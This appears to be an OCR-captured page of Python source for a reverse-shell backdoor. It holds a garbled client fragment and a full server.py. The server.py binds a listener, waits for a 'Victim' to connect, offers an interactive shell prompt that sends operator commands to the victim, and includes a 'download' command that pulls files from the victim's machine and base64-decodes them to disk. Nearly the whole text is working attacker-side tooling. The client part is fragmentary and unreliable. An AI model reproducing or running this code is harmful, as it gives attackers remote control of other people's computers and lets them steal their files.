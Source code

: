 ```python
    A = 1
    B = 2
    SUB = A+B

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connection()
#print("connection Established!")

s.close()

```

server.py
```python
#!/usr/bin/python
import socket
import json
import base64
import datetime

HostIP="210.240.*.*"
HostPort=54321
def reliable_send(data):
    json_data =json.dumps(data)
    target.send(bytes(json_data,encoding="utf-8"))
def reliable_recv():
    json_data=bytearray(0)
    while True:
        try:
            json_data+=target.recv(1024)
        
            return json.loads(json_data)
        except ValueError:
            continue



s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)


s.bind((HostIP,HostPort))


s.listen()
print("srver start!")
target,ip= s.accept()
print("Victim connect")


while True:
    command = input("* Shell#~%s: " %str(ip))
    reliable_send(command)
    if command =="q":
        break
    elif command[:2]== "cd" and len(command) >1:
        continue
    elif command[:8] =="download":
        result =reliable_recv()
        if result[:4] != "[!!]":
            with open(command[9:],"wb") as file_down:
                file_down.write(base64.b64decode(result))
        else:
            print(result)
```